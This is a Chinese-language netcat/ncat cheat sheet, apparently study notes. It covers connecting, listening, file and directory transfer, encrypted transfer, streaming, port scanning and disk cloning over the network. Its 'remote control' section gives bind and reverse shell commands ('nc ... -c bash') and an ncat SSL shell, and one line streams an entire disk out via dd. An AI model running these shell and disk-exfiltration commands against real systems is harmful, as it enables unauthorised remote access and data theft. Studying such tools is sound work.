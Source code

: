 
# netcat

* netcat
* ncat

## netcat

* 描述
> 网络工具中的瑞士军刀——小身材、大智慧  
  侦听模式 / 传输模式  
  telnet / 获取banner信息  
  传输文本信息  
  传输文件/目录  
  加密传输文件  
  远程控制/木马  
  加密所有流量  
  流媒体服务器  
  远程克隆硬盘  

* 连接服务器
``` 
nc -vn 1.1.1.1 110
```

* 开启服务器监听
``` 
nc -l -p 4444

nc -l -p 4444 > ps.txt
ps aux | nc -nv 1.1.1.1 110 
```
* 传输文件
``` 
nc -lp 333 > 1.mp4
nc -nv 1.1.1.1 333 < 1.mp4 -q 1

nc -q 1 -lp 333 < a.mp4
nc -nv 1.1.1.1 333 > 2.mp4
```
* 传输目录
``` 
tar -cvf - music/ | nc lp 333 -q 1
nc -nv 1.1.1.1 333 | tar -xvf -
```

* 加密传文件
``` 
nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
mcrypt --flush -Fbq -a rijndael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1
```
* 流媒体
``` 
cat 1.mp4 | nc -lp 333
nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -
```
* 扫描端口
``` 
nc -nvz 1.1.1.1 1-65535
nc -vnzu 1.1.1.1 1-1024
```

* 克隆硬盘
``` 
nc -lp 333 | dd of=/dev/sda
dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1
```
* 远程控制
``` 
正向
    服务器：nc -lp 333 -c bash
    客户端：nc -nv 1.1.1.1 333
		
反向
    客户端：nc -lp 333
    服务器端：nc -nv 1.1.1.1 333 -c bash

注：windows 用户把bash改成cmd
```


## ncat
> nc缺乏加密和身份验证能力  
> 包含于nmap工具包
```
ncat -c bash --allow 192.168.20.14 -vnl 333 --ssl
ncat -nv 1.1.1.1 333 --ssl
```

